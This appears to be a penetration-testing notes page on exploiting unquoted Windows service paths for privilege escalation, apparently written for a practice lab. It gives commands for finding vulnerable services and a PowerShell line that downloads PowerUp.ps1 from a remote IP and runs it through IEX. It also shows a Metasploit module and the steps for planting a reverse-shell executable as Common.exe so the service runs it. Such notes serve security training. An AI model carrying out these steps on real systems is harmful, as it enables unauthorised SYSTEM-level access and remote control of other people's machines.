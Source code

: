 # Unquoted Service Path

Executables in Windows can be run without using their extension (e.g. “whoami.exe” can be run by just typing “whoami”). Some executables take arguments, separated by spaces, e.g. someprog.exe arg1 arg2 arg3… This behavior leads to ambiguity when using absolute paths that are unquoted and contain spaces.

Consider the following unquoted path: C:\Program Files\Some Dir\SomeProgram.exe

To us, this obviously runs SomeProgram.exe. To Windows, C:\Program could be the executable, with two arguments: “Files\Some” and “Dir SomeProgram.exe” Windows resolves this ambiguity by checking each of the possibilities in turn. **If we can write to a location Windows checks before the actual executable, we can trick the service into executing it instead.**

## <mark style="color:red;">detecting unquoted service paths</mark>

### <mark style="color:orange;">manual method</mark>

```
sc query vaultsvc → query the credential manager
```

searching for all unquoted service binary paths:

```
wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """
```

This command finds the service name, executable path, display name of the service and auto starts in all the directories except C:\Windows (since by default there is no such service which has spaces and is unquoted in this folder). Also, we need to exclude those services that are enclosed within the double quotes.

### <mark style="color:orange;">automated with metasploit</mark>

We use Metasploit’s exploit/windows/local/trusted\_service\_path.

```
use exploit/windows/local/trusted_service_path
set session 1
exploit
```

### <mark style="color:orange;">automated using powerup</mark>

```
powershell -nop -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('http://192.168.0.81/PowerUp.ps1');Get-ServiceUnquoted"
```

### <mark style="color:orange;">automated with winPEAS</mark>

Run winPEAS to check for service misconfigurations:

```
winPEASany.exe quiet servicesinfo
```

![](<../../../../.gitbook/assets/image (100).png>)

Note that the “unquotedsvc” service has an unquoted path that also contains spaces:

C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe

Confirm this using sc:

```
sc qc unquotedsvc
```

![](<../../../../.gitbook/assets/image (101) (1).png>)

we can detect it using

Use accesschk.exe to check for write and startpermissions:

```
accesschk.exe -ucqv user unquotedsvc
```

![](<../../../../.gitbook/assets/image (77) (1).png>)

we have start permission, now check for write permission on each directory path to the binary file:

```
accesschk.exe /accepteula -uwdq C:\
accesschk.exe /accepteula -uwdq "C:\Program Files\"
accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"
```

or

```
icacls c:\
icacls "c:\\Program Files"
icacls "c:\\Program Files\\Unquoted Path Service"
```

![](<../../../../.gitbook/assets/image (75) (1).png>)

it looks like all the members of the builtin\users group have RW (read/write) access to this directory. we are a member of that group so we can create a file named Common.exe in C:\Program Files\Unquoted Path Service and have it execute a reverse shell. (because C:\Program Files\Unquoted Path Service is the first path that our user group has rw access and the next thing that windows looks for while executing the binary is the name "Common" in the "Common Filess" string so if we create a reverse shell executable named Common.exe it will be executed befor windows reaches the "Common Files" directory

Copy the reverse shell executable and rename it appropriately:

```
copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"
```

Start a listener on Kali, and then start the service to trigger the exploit:

```
net start unquotedsvc
```

![](<../../../../.gitbook/assets/image (97) (1).png>)
